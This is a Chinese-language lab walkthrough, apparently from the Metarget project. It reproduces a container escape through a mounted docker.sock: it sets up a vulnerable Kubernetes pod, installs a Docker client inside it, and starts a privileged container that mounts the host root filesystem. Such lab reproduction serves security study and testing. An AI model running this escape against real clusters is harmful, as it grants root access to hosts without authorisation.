

# 挂载docker.sock导致容器逃逸

## 场景介绍

Docker Socket是Docker守护进程监听的Unix域套接字，用来与守护进程通信——查询信息或下发命令。如果在攻击者可控的容器内挂载了该套接字文件（/var/run/docker.sock），可通过Docker Socket与Docker守护进程通信，发送命令创建并运行一个新的容器，将宿主机的根目录挂载到新创建的容器内部，完成简单逃逸。

## 环境搭建

基础环境（Docker+K8s）准备（如果已经有任意版本的Docker+K8s环境则可跳过）：

```bash
./metarget gadget install docker --version 18.03.1
./metarget gadget install k8s --version 1.16.5 --domestic
```

漏洞环境准备

```
./metarget cnv install mount-docker-sock
```

执行完成后，K8s集群内`metarget`命令空间下将会创建一个名为`mount-docker-sock`的pod。

宿主机的`/var/run/docker.sock`被挂载在容器内部。

## 漏洞复现

通过以下两个步骤来完成简单逃逸：

1. 在容器内安装Docker命令行客户端
2. 使用容器内的客户端通过Docker socket与Docker守护进程通信，发送命令创建并运行一个挂载宿主机根目录的容器，实现基本逃逸。

具体操作如下:

执行以下命令进入容器:

```
kubectl exec -it mount-docker-sock -n metarget bash
```

在容器内安装Docker命令行客户端:

```
先将源替换为中科大源
sed -i 's/archive.ubuntu.com/mirrors.ustc.edu.cn/g' /etc/apt/sources.list
apt update&& apt install -y wget
然后下载编译好的docker 客户端
wget https://download.docker.com/linux/static/stable/x86_64/docker-17.03.0-ce.tgz
tar xf ./docker-17.03.0-ce.tgz
cd /docker
```

成功安装Docker客户端:

```
root@mount-docker-sock:/#cd /docker
root@mount-docker-sock:/docker#ls
docker  docker-containerd  docker-containerd-ctr  docker-containerd-shim  docker-init  docker-proxy  docker-runc  dockerd
```

执行docker命令`docker ps`,结果和宿主机相同，证实docker.sock挂载成功：



然后可以借此启动一个挂载宿主机根目录的特权容器，完成简单逃逸：

```
root@mount-docker-sock:/docker#./docker run -it -v /:/host --privileged --name=sock-test ubuntu /bin/bash
root@1cec1bf980fb:/# ls /host/
bin   dev  evil  initrd.img      lib    lost+found  mnt  proc  run   snap  swap.img  tmp  var      vmlinuz.old
boot  etc  home  initrd.img.old  lib64  media       opt  root  sbin  srv   sys       usr  vmlinuz  w00t_w00t_im_a_flag
root@1cec1bf980fb:/# cat /host/etc/hostname
cloudplay
```

## 参考文献

https://mp.weixin.qq.com/s/_GwGS0cVRmuWEetwMesauQ